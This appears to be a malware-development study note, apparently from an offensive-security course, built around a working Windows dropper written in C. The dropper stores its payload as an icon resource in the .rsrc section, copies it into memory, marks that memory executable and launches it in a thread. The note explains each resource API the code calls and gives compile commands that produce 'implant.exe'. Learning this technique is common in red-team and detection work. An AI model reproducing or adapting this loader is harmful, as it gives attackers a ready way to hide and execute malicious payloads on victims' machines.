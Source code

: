 
Code Snippet
```c
/*
 storing payload in .rsrc section
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include "resources.h"

int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;  
    DWORD oldprotect = 0;
	HGLOBAL resHandle = NULL;
	HRSRC res;
	
	unsigned char * payload;
	unsigned int payload_len;
	
	// Extract payload from resources section
	res = FindResource(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA);
	resHandle = LoadResource(NULL, res);
	payload = (char *) LockResource(resHandle);
	payload_len = SizeofResource(NULL, res);
	
	// Allocate some memory buffer for payload
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("%-20s : 0x%-016p\n", "payload addr", (void *)payload);
	printf("%-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);

	// Copy payload to new memory buffer
	RtlMoveMemory(exec_mem, payload, payload_len);
	
	// Make the buffer executable
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

	printf("\nHit me!\n");
	getchar();

	// Launch the payload
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}

```
#### Retrieving payload from .rsrc algorithm (C-like pseudo-code)

```c
// 1. find the resource in .rsrc section containing payload 
res = FindResource(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA)

// 2. load the resource from .rsrc section
resHandle = LoadResource(NULL, res)

// 3. get a pointer to the loaded resource
payload = (char *) LockResource(resHandle);

// 4. get the size of the resource/payload
payload_len = SizeofResource(NULL, res)
```

---

[**_FindResource()_**](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-findresourcea) determines the location of a resource with the specified type and name in the specified module (executable file or DLL). This function can be found in the _kernel32.dll_ library.

`FindResource()` function has the following prototype:
```c
HRSRC FindResource(
  HMODULE hModule,   // handle to the module containing the resource. If NULL, the function searches the module used to create the current process
  LPCTSTR lpName,    // name of the resource. Also, this parameter can be MAKEINTRESOURCE(ID), where ID is the integer identifier of the resource
  LPCTSTR lpType     // resource type, ex. RT_BITMAP, RT_ICON, RT_RCDATA, etc. Shellcode will be RT_RCDATA
);
```

**Return value**
If the function succeeds, the return value is a handle to the specified resource's information block. Otherwise, the return value is `NULL`.

---

[**_LoadResource()_**](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadresource) is used to load a resource from the module's resource section. This function can be found in the _kernel32.dll_ library.

`LoadResource()` function has the following prototype:

```c
HGLOBAL LoadResource(
  HMODULE hModule,    // handle to the module whose executable file contains the resource if null searches the module used to create the current process
  HRSRC   hResInfo    // handle to the resource to be loaded (returned by FindResource() function)
);
```

**Return value**
If the function succeeds, the return value is a handle to the data associated with the resource. Otherwise, the return value is `NULL`.

---

[**_LockResource()_**](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-lockresource) is used to obtain a pointer to the data associated with a resource. This function can be found in the _kernel32.dll_ library.

`LockResource()` function has the following prototype:
```c
LPVOID LockResource(
  HGLOBAL hResData    // handle to the resource to be accessed (from LoadResource() function)
);
```

**Return value**

If the loaded resource is available, the return value is a pointer to the first byte of the resource; otherwise, it is `NULL`.

> `LockResource()` needs to be casted as a `char` because it returning a Long Pointer Void which means "a generic pointer to some memory, but I don’t know (or care) what type of data it points to.”

---

[**_SizeofResource()_**](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-sizeofresource) is used to retrieve the size (in bytes) of a resource. This function can be found in the _kernel32.dll_ library.

`SizeofResource()` function has the following prototype:
```c
DWORD SizeofResource(
  HMODULE hModule,    // handle to the module whose executable file contains the resource
  HRSRC   hResInfo    // handle to the resource to be loaded (returned by FindResource() function)
);
```

**Return value**
If the function succeeds, the return value is the number of bytes in the resource. Otherwise, the return value is zero.


### REST OF CODE EXPLAINED [HERE](obsidian://open?vault=Offensive%20Security&file=root%2FMalware%20Development%2FSektor7%2FDroppers%2FPayload%20held%20in%20.text)

#### Compiling

```powershell
rc.exe resources.rc
cvtres.exe /MACHINE:x64 /OUT:resources.o resources.res
cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcimplant.cpp /link /OUT:implant.exe /SUBSYSTEM:CONSOLE /MACHINE:x64 resources.o
```

In Windows, `rc.exe` and `cvtres.exe` are two command-line tools used in the process of building Windows applications. They are part of the Microsoft Visual Studio toolset.

1. [**_Resource Compiler_**](https://learn.microsoft.com/en-us/windows/win32/menurc/resource-compiler): `rc.exe` is a special resource compiler in Windows. It is used to compile resource script files (with a _.rc_ extension) into binary resource files (with a _.res_ extension). Resource script files contain resources such as icons, bitmaps, dialog boxes, menus, strings, version information, etc., that are used in Windows applications.
    
2. **_Resource Converter_**: `cvtres.exe` is used to convert resource files from an older format (usually _.res_ files) to the newer _.coff_ format (Microsoft's Common Object File). This conversion is necessary for compatibility with modern development tools and linkers. `cvtres.exe` is typically invoked during the build process after resource files are compiled with `rc.exe`.